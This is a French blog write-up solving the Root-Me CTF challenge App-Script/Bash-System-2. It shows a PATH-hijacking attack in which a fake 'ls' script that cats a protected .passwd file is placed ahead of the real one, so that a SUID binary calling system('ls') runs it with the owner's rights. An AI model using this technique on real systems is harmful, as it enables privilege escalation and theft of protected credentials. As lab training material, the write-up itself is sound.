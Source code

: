```yaml
---
title: "RootMe App-Script/Bash-System-2"
seoTitle: "RootMe App-Script/Bash-System-2"
datePublished: Mon Jun 09 2025 22:49:08 GMT+0000 (Coordinated Universal Time)
cuid: cmbpop0sd000102l5h9ns2pan
slug: rootme-app-scriptbash-system-2
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1749504538459/36c14397-4060-42a6-8c24-02584a9f4010.png
tags: bash, cybersecurity-1, shell-script, root-me

---
```


Lien : [https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2](https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749505028969/8161ee5c-7590-496b-853f-cb2c6b78550e.png align="center")

On veut pouvoir lire le mot de passe du fichier `.passwd` mais il n’est lisible que par le propriétaire du fichier `app-script-ch12-cracked`.

Le code source de `ch12.c` utilise la fonction `system()` pour lister le répertoire du fichier `.passwd`. Par contre la commande `ls` est appelée dans la fonction `system()` sans spécifier le chemin absolu, c’est-à-dire `/bin/ls`. On peut donc créer une fausse commande `ls` , mais qui sera en réalité une commande `cat` puis l’injecter dans la variable d’environnement `PATH`. Puisque le fichier `ch12` a le binaire SUID activé, il peut s’exécuter avec les droits du propriétaire. Quand la commande `ls` sera exécutée par la commande `system()`, le shell regardera au niveau des variables d’environnement PATH puis cherche la commande `ls` dans les répertoires. La commande qu’on aura manipulé sera donc exécutée à la place.

Créér le répertoire dans /tmp/script

```bash
mkdir /tmp/script
nano /tmp/script/ls
```

Écrire ensuite le script pour lire le fichier `.passwd`.

```bash
#!/bin/bash
cat /challenge/app-script/ch12/.passwd
```

Rendre le script ls exécutable

```bash
chmod +x /tmp/script/ls
```

Modifier la variable d’environnement PATH pour inclure notre script

```bash
export PATH=/tmp/script:$PATH
```

En vérifiant avec la command `which ls`, on voit que que le script est bien trouvé avant la commande ls.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749509148631/6dd13ac1-3b25-4e01-800c-c3d9d4bc464c.png align="center")

On peut maintenant lire le fichier.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749509071532/4f6bdf63-3c6c-4555-81b5-548700be846c.png align="center")